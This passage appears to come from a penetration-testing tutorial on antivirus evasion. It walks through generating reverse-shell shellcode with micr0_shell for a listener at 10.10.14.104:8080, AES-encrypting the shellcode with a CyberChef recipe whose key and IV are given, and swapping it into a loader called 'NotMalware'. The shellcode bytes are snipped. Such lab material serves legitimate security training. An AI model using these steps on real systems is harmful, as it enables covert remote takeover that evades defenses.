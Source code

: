 As an example, let's use [micr0\_shell](https://github.com/senzee1984/micr0_shell). From the project description we can see that this program generates `"reverse shell shellcode for Windows x64"`.

![image](6CfNt1t66MHp.png)

We can generate shellcode with our `IP` and `port` with the following command:

```powershell
PS C:\Tools\micr0_shell> python.exe .\micr0_shell.py -i [IP] -p 8080 -l csharp

███╗░░░███╗██╗░█████╗░██████╗░░█████╗░  ░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
████╗░████║██║██╔══██╗██╔══██╗██╔══██╗  ██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██╔████╔██║██║██║░░╚═╝██████╔╝██║░░██║  ╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║╚██╔╝██║██║██║░░██╗██╔══██╗██║░░██║  ░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
██║░╚═╝░██║██║╚█████╔╝██║░░██║╚█████╔╝  ██████╔╝██║░░██║███████╗███████╗███████╗
╚═╝░░░░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░  ╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

Author: Senzee
Github Repository: https://github.com/senzee1984/micr0_shell
Description: Dynamically generate PIC Null-Free Reverse Shell Shellcode
Attention: In rare cases (.255 and .0 co-exist), generated shellcode could contain NULL bytes, E.G. when IP is 192.168.0.255

[+]Shellcode Settings:
******** IP Address: 10.10.14.104
******** Listening Port: 8080
******** Language of desired shellcode runner: csharp
******** Shellcode array variable name: buf
******** Shell: cmd
******** Shellcode Execution: false
******** Save Shellcode to file: false

[+]Payload size: 476 bytes

[+]Shellcode format for C#

byte[] buf= new byte[476] {
<SNIP>
};

```

Afterward, we will copy paste the shellcode output into the [AES-encryption CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')) from before to get the new encrypted payload we will use in place of the `Meterpreter` shellcode.

![image](weWBOtpAd3ho.png)

Inside `NotMalware`, we can replace the `base64` string with this new one and recompile the program.
